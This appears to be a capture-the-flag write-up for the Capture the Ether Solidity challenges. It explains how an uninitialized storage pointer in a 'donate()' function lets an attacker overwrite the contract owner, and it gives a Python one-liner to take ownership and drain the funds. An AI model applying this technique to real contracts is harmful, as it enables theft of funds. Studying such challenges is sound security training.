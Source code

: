The function `donate()` contains a bug:

```js
function donate(uint256 etherAmount) public payable {
    // amount is in ether, but msg.value is in wei
    uint256 scale = 10**18 * 1 ether;
    require(msg.value == etherAmount / scale);

    Donation donation;
    donation.timestamp = now;
    donation.etherAmount = etherAmount;

    donations.push(donation);
}
```

The variable `donation` is not initialized, so it is defaulted to storage. As a result, `donation` now is a pointer that affects storage slot 0 (`donations`) and storage slot 1 (`owner`). As a result, whatever value is assigned to these two variables, but in particular, to `etherAmount`, will write to those two storage slots.

```js
donation.timestamp = now;
donation.etherAmount = etherAmount;
```

To complete the challenge, all you have to do is pass the uint conversion of your address divided by `scale` as `etherAmount`, after this, you can call `withdraw()` and drain the contract. 

In Python I did it as follows:

```python
donation.donate(acc.address, _from | {'value':floor(int(acc.address,16)//1e36)})
```

Where:

* `_from` is {'from':acc.address}
* `acc` is my loaded account through my private key (the account doing the capture the ether challenges)
* `floor()` is the floor function
* `//` is integer division
* `int(acc.address, 16)` is the conversion to int of my address (basically hexadecimal $\rightarrow$ decimal)


#### Submission transaction

https://ropsten.etherscan.io/tx/0x5fc76f733f3384fa064f8d10acda683ca35cd683dc47781aa2e9d5ef9913f5b8

***

### Fifty years

#### Objectives

>This contract locks away ether. The initial ether is locked away until 50 years has passed, and subsequent contributions are locked until even later.
>All you have to do to complete this challenge is wait 50 years and withdraw the ether. If you’re not that patient, you’ll need to combine several techniques to hack this contract.

